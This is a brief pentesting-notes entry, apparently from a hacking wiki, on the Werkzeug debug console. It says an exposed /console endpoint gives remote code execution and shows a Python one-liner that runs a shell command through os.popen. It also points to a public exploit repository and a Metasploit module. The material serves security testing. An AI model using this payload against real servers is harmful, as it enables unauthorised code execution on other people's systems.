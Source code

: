 # werkzeug

If debug is active you could try to access to `/console` and gain RCE.

```python
__import__('os').popen('whoami').read();
```

![](../../.gitbook/assets/image%20%28348%29.png)

There is also several exploits on the internet like [this ](https://github.com/its-arun/Werkzeug-Debug-RCE)or one in metasploit.



